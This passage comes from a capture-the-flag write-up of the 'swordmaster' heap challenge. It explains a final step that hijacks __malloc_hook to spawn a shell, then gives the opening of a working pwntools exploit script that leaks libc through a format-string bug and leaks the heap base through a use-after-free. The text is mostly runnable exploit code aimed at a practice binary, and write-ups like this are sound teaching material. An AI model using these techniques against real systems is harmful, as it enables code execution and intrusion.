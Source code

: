 ### Step 6:
Last step, we need to get a pointer to our name, `/bin/sh\0`. This is always located `0x1270` from the heap base. Instead of providing a size when crafting a sword, we will provide this pointer. Now instead of `__malloc_hook` running before the malloc takes place, `system("/bin/sh\0")` will run resulting in a shell.
```python
cmd = heap + 0x1270
p.recvuntil(b'>> ')
p.sendline(b'1')
p.recvuntil(b'>> ')
p.sendline(str(cmd))
```

### Full Exploit Code:
The full exploit is included below. You can also view it on my [github](https://github.com/stigward/PoCs-and-Exploits/tree/main/CTFs/ROMHack2022/swordmaster).

```python
from pwn import *  
import sys  
if not sys.warnoptions:  
  import warnings  
  warnings.simplefilter("ignore")  
  
elf = ELF("./swordmaster")  
libc = ELF("./glibc/libc.so.6")  
p = elf.process(['./glibc/ld-linux-x86-64.so.2','./swordmaster'],env={"LD\_PRELOAD":"./glibc/libc.so.6"})  
  
# ---- SET NAME ----  
p.sendline('/bin/sh\0')  
  
# ---- LEAK LIBC BASE WITH FORMAT STRING BUG ----  
p.recvuntil(b'>> ')  
p.sendline(b'%13$p')  
p.recvuntil('There is no ')  
  
libc_leak = p.recvline().split(b' ')[0]  
libc_leak = int(libc_leak[2:], 16)  
libc.address = libc_leak - 0x21c87  
  
log.info("LEAKED LIBC BASE: " + hex(libc.address))  
  
  
# ---- LEAK HEAP BASE WITH UAF BUG -------  
p.recvuntil(b'>> ')  
p.sendline(b'5')  
p.recvuntil(b'>> ')  
p.sendline(b'3')  
p.recvuntil(b'Class: ')  
  
heap = p.recvline()[:-1]  
heap = int.from_bytes(heap, 'little') - 4800 - 0x10  
  
log.info("LEAKED HEAP BASE: " + str(hex(heap)))  
  
def malloc(size, data):  
  p.recvuntil(b'>> ')  
  p.sendline(b'1')  
  p.recvuntil(b'>> ')  
  p.sendline(str(size))  
  p.recvuntil(b'>> ')  
  p.sendline(data)  
  
```